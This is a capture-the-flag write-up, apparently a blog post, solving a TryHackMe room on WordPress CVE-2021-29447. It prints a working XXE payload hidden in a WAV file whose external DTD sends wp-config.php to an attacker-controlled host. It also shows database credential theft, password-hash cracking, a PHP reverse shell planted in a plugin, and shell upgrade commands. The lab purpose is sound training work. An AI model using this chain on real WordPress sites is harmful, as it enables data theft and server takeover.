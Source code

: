 ```yaml
---
layout: post
title: "Wordpress-CVE-2021-29447"
date: 2022-10-20
categories: [Tryhackme, Easy-THM]
tags: [wordpress, php, wp-config.php, JTR, hashcat]
image: ../../assets/img/posts/wordpresscve202129447.png 

---
```


## Description

Vulnerability allow a authenticated user whith low privilages upload a malicious WAV file that could lead to remote arbitrary file disclosure and server-side request forgery (SSRF).

|**Room**|[Wordpress-CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Using credentials, we log into webapp,

![image](https://user-images.githubusercontent.com/67465230/187016017-8c10537d-4bda-40d3-a5d0-44a72801399d.png)

Navigating to Media section and select for audio,

![image](https://user-images.githubusercontent.com/67465230/187016023-14dee76e-9b0a-4bdd-9fb1-5210696b08d0.png)

Now, create ".wav" file:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://tun0IP/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > malicious.wav
```

And, create .dtd file:

```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://tun0IP/?p=%file;'>" >
```

Start php server,

```php
php -s 0.0.0.0:80
```

Upload the file and got the callback,

![image](https://user-images.githubusercontent.com/67465230/187016029-97cf98dc-a5c4-4c00-ad64-c8eda9bb644f.png)

Create a file named wp-config.php,

```php
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

![image](https://user-images.githubusercontent.com/67465230/187016040-3d2c4712-fdf0-4377-ba3e-ec85e40e9fc9.png)

Now, we can get the database content out of it,

```php
php wp-config.php | grep -i db
```

![image](https://user-images.githubusercontent.com/67465230/187016050-16108b51-6feb-41f9-a496-48c023918f08.png)

we got database username, password, hostname, name, etc.

Now, we can scan the machine to get open ports,

```bash
nmap -sC -sV -p22,80,3306 10.10.64.14
```

![image](https://user-images.githubusercontent.com/67465230/187016061-c658c76d-c613-461e-8d47-0a314d519709.png)

we get port 22 open and is running ssh service, port 80 is running apache webserver, port 3306 is running mysql service.

We can access mysql database using the credentials we found earlier,

```bash
mysql -h 10.10.64.14 -Dwordpressdb2 -u thedarktangent -p
```

![image](https://user-images.githubusercontent.com/67465230/187016071-db92de81-e6b2-4737-8e84-a5e1f8cfbcaa.png)

We can use these commands to retrieve credentials out of database,

```sql
show databases;
use wordpressdb2;
describe wptry_users;
select user_login, user_pass from wptry_users where id=1;
```

![image](https://user-images.githubusercontent.com/67465230/187016077-77800f68-3654-4247-96d4-ee4af450969f.png)

Now that we have username and password hash, we can use JTR to crack the password,

```bash
john crack --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/187016089-3b3f9f5f-e53a-4b02-a4d7-19a344a1754f.png)

in seconds, the hash gets cracked.

Alternatively, we can use hashcat tool to crack this hash, (_use 400 mode because this is a MD5 wordpress hash_)

```bash
hashcat.exe -a 0 -m 400 crack.txt rockyou.txt -O
```

![image](https://user-images.githubusercontent.com/67465230/187016099-d10eb3d6-62de-4807-9e45-a73c4bbce70e.png)

hashcat will take seconds to crack the hash.

Now, we can login using the credentials we just get,

![image](https://user-images.githubusercontent.com/67465230/187016107-bc60e961-044f-4658-af12-bb9954c63b9a.png)

There is a hello.php file in Plugins -> Plugin Editor -> Hide Only. We will paste the php reverse shell and update the file. 

![image](https://user-images.githubusercontent.com/67465230/187016119-9576c610-a2c1-485c-89e6-42f4e1452999.png)

Now, we need to start a listener using `nc -nvlp 4444` and using curl command to make the request to webserver,

```bash
curl http://10.10.64.14/wp-content/plugins/hello.php
```

we will get a reverse shell as this curl command will trigger the php-reverse-shell,

![image](https://user-images.githubusercontent.com/67465230/187016125-3529c097-5a7f-4b87-be66-183594f6f905.png)

Now, we can improve this shell using sequence of these commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
stty rows 38 columns 116
```

Enumerating directory and we found the flag,

![image](https://user-images.githubusercontent.com/67465230/187016136-6125671a-2d34-4f06-b6b3-5b93d2f88293.png)
